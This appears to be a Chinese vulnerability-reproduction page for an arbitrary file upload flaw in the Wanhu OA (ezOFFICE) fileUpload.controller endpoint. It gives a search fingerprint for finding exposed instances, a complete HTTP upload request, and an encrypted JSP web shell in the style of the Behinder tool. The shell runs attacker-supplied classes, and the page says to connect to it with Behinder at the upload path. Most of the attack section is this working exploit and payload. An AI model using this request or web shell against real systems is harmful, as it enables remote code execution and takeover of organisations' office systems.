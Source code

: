 # 万户OA fileUpload.controller 任意文件上传漏洞

## 漏洞描述

万户OA fileUpload.controller 存在任意文件上传漏洞，攻击者通过漏洞可以上传任意文件

## 漏洞影响

```
万户OA
```

## 网络测绘

```
app="万户网络-ezOFFICE"
```

## 漏洞复现

产品页面

![img](images/1628348571931-52bde954-fcd0-485f-bc17-1494f5eb53f4.png)

发送请求包上传文件

```php
POST /defaultroot/upload/fileUpload.controller HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:50.0) Gecko/20100101 Firefox/50.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: Keep-Alive
Content-Type: multipart/form-data; boundary=KPmtcldVGtT3s8kux_aHDDZ4-A7wRsken5v0
Content-Length: 773

--KPmtcldVGtT3s8kux_aHDDZ4-A7wRsken5v0
Content-Disposition: form-data; name="file"; filename="cmd.jsp"
Content-Type: application/octet-stream
Content-Transfer-Encoding: binary

<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%><%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}%><%if (request.getMethod().equals("POST")){String k="e45e329feb5d925b";/*......tas9er*/session.putValue("u",k);Cipher c=Cipher.getInstance("AES");c.init(2,new SecretKeySpec(k.getBytes(),"AES"));new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);}%>
--KPmtcldVGtT3s8kux_aHDDZ4-A7wRsken5v0--
```

![img](images/1628348700247-9ac78c6c-b56f-4137-a0b3-ba3b13733c19.png)

使用冰蝎连接木马 **/defaultroot/upload/html/xxxxxxxxxx.jsp**

![img](images/1628349045223-89889c4f-c7e6-4a31-af77-5c58fa8749b4.png)
